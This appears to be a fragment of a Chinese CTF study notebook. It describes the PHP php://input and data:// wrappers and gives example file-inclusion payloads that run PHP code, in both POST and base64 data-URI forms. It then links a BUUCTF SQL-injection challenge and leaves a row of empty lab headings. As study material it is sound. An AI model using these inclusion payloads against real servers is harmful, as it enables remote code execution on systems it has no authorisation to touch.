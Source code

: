 ##### php://input

作用:

>执行POST数据中的php代码

示例:

>http://xxx.x.x.x/cmd.php?cmd=php://input
>POST数据：<?php phpinfo()?>

#### data://

作用:

>data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输

示例:

>http://xxx.x.x.x/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

## 靶场_5

[[强网杯 2019]随便注1](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

### 解题

![[屏幕截图 2022-07-29 091915.png]]



## 靶场_6
## 靶场_7
## 靶场_8
## 靶场_9
## 靶场_10
## 靶场_11
## 靶场_12
## 靶场_13
## 靶场_14
## 靶场_15
## 靶场_16
## 靶场_17
## 靶场_18
## 靶场_19
## 靶场_20